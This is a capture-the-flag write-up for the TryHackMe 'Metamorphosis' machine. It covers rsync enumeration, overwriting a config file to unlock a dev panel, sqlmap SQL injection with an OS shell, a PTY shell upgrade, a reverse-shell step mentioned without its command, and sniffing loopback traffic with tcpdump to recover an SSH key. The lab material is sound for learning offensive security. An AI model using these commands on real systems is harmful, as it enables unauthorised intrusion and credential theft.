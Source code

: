 # Metamorphosis TryHackMe Writeup

## Enumeration
```
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack
80/tcp  open  http         syn-ack
139/tcp open  netbios-ssn  syn-ack
445/tcp open  microsoft-ds syn-ack
873/tcp open  rsync        syn-ack
```

The website didn't have anything particularly interesting on it and neither did the SMB shares.
Rsync on the other-hand sounds promising. There's some information on pentesting rsync on [hacktricks](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync)  

![image](https://user-images.githubusercontent.com/65077960/126723108-e62bb428-28ec-4c2c-8796-d5a2d9e6e305.png)

We can connect and perform some manual enumeration:  
![image](https://user-images.githubusercontent.com/65077960/126724275-de9a00a2-b2aa-4ded-bca8-b652c5c3ce3e.png)

We can use the rsync binary to conenct and enumerate directories:
![image](https://user-images.githubusercontent.com/65077960/126724691-e4fddf39-a412-47d4-bab7-d3675d1e8dde.png)

We see there's a lot of configuration files that we can download and look into:  
```
mkdir rsync
rsync -av rsync://10.10.82.247/Conf rsync
```
In the webapp.ini file we see creds for a user called tom.

## User own
> Dev environment is seen on the 404 pages
> 
We can edit the webapp.ini file to give us access to the dev environment, our webapp.ini now looks like this:
```ini
[Web_App]
env = dev 
user = tom
password = <redacted>

[Details]
Local = No

```
We can then sync the malicious webapp.ini using:
```
rsync -av webapp.ini rsync://10.10.229.96/Conf/webapp.ini
```
and access the /admin page
![image](https://user-images.githubusercontent.com/65077960/126726798-7e2c9c62-356d-4097-8ded-171db8c2cddc.png)  

We can use SQL injection to get an os-shell by making a request and saving it in burp and passing it to SQL map: 
```
sqlmap -r userinfo.req --os-shell --level 3 --risk 3 --random-agent
```
![image](https://user-images.githubusercontent.com/65077960/126729305-f5d5295e-1389-4bc0-b27d-d4c80621e534.png)

## Root own

We can upgarde our shell by using wget to download a PHP reverse shell and catch it with netcat. We'll upgrade to a full interactive shell with the following:  
```
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+z
stty raw -echo
fg
< Hit enter a couple times >
```
We can run linpeas and see there's not a great deal happening, but there are some ongoing connections that we can sniff. We'll use TCPDump and write to a file: 
```
tcpdump -i lo -w out.pcap -v
```
![image](https://user-images.githubusercontent.com/65077960/126806427-87eacc27-28ba-4638-856d-9bf1a614c6c8.png)

After moving it over to the web server, we can download it and analyze it locally. 
There's some HTTP requests being made that could be interesting, looking into them we find a SSH key:
![image](https://user-images.githubusercontent.com/65077960/126807802-7b26c809-e83d-4c2d-8802-3c597a5ca443.png)

Copy "all visable items" and copy the key into a file. 
> Remember chmod 600 the file and strip the \\n's from the file

![image](https://user-images.githubusercontent.com/65077960/126808113-7ba76c65-7ed6-46bd-a628-3933ab0f8e0a.png)





